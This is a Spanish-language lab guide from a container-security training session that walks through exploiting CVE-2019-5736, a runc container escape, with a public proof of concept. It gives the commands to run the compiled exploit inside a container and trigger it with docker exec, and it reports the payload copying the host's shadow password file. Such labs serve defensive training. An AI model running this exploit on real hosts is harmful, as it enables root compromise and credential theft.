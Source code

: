 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**
Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
    1. [Ejecución ](#id12)

## Requisitos

1. cambiar a directorio Parte4
````
cd ~/contenedoresyseguridad/Seccion4DockerEscape
````
2. Backup runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>
##1 CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, teniendo en cuenta que un atacante ha conseguido una shell en uno de nuestros contenedores:

1. Se ejecuta el exploit en el contenedor. Queda a la escucha.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por un payload deseado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.
Al realizar un exec desde fuera, el exploit sobreescribe runC por el payload deseado

En nuestro caso, vamos a ejecutar el exploit en nuestra instalación docker por defecto versión 18.09.1.
Ya estamos listos para escapar de un contenedor sobreescribiendo runC y ejecutando nuestro payload como root.

<div id='id12'></div>
## Ejecución

1. **En el Host**. Para simular a un atacante, ejecutaremos una shell y mapearemos el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No cerrar ni salir de la del punto 2. Ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Observamos que en la **shell de contcomprometido** obtenemos la salida overwritten succesfully.
**En el host** observamos el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.
